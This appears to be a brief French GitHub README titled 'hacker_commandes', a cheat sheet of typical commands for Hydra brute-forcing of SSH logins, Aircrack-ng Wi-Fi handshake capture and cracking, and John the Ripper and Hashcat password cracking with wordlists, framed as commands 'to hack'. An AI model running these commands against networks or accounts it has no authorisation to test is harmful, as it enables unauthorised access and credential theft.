 # hacker_commandes
put all command to hack 


## Hydra (Attaque de services en réseau, ex. SSH, FTP, HTTP):

    Installation : sudo apt install hydra
    Commande typique :

    hydra -l admin -P /chemin/liste_mots_passe.txt -t 4 ssh://192.168.1.1

    Description :
        -l : Nom d'utilisateur.
        -P : Chemin du fichier contenant les mots de passe.
        -t : Nombre de threads (pour accélérer).

## Aircrack-ng (Force brute de clés Wi-Fi) :

### Capture du handshake :

    airodump-ng wlan0mon

### Lancer la force brute sur un handshake capturé :

    -aircrack-ng -w /chemin/liste_mots_passe.txt -b [BSSID] fichier_capture.cap

## John the Ripper (Crack de mots de passe hors ligne) :

    Commande typique :

    -john --wordlist=/chemin/liste_mots_passe.txt hash_fichier.txt

Hashcat (Crack de hash avec GPU accélération) :

    Commande typique :

    hashcat -m 2500 -a 0 fichier_hashes.hccapx /chemin/liste_mots_passe.txt
